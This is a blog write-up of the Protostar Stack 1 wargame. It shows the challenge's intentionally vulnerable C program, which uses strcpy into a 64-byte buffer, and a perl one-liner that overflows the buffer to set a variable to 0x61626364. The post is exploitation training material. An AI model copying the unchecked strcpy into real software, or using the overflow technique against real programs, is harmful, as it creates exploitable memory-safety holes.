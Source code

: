 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 1"
date: 2011-12-13T06:12:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack1) challenge is very similar to the previous one.  The main difference is that instead of just validating that the "modified" value was changed, it validates that it was changed to a specific value, 0x61626364, or "dcba" in ASCII:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

To complete this, we simply run:

```
user@protostar:/opt/protostar/bin$ ./stack1 `perl -e 'print "A"x64 . "dcba"'`
you have correctly got the variable to the right value
```

This will fill up the "buffer" with 64 "A"s, and overflow "dcba" into the "modified" variable.
